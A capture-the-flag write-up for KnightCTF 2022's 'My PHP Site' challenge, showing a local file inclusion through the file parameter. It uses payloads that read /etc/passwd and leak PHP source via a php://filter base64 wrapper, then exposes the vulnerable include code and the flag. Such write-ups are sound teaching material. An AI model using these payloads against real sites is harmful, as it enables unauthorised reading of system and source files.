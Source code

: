 <h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.<br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/>
`Hey! Welcome to my site. I made this site using php.. You are viewing tareq's home page.`<br/>
As you may already know php based websites are full of vulns.<br/>
Getting a closer look at the link, we see the parametre: `/?file=index.html`<br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/>
Let's try getting something with it:<br/>
`/?file=/etc/passwd`<br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/>
Let's try getting the source code:<br/>
`/?file=index.php`<br/>
We get an `ERROR!!`<br/>
hmmm I wonder why...let's use a php filter, the base64 one for example.<br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/>
We got the source code:<br/>
`PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI`<br/>
Let's decode it from base64.<br/>
`base64 -d index`<br/>
we get the php source code.<br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/>
`/?file=s3crEt_fl49.txt`<br/>
Bingo<br/>
`KCTF{L0C4L_F1L3_1ncLu710n}`<br/>

